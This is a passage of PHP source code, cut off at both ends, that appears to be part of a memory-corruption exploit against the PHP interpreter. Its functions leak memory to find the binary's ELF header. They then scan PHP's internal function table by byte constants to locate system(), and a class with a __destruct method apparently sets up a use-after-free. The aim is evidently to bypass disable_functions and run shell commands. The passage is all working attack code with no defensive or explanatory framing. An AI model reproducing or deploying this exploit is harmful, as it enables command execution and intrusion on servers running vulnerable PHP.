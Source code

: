 ```php
        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $text_size) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
```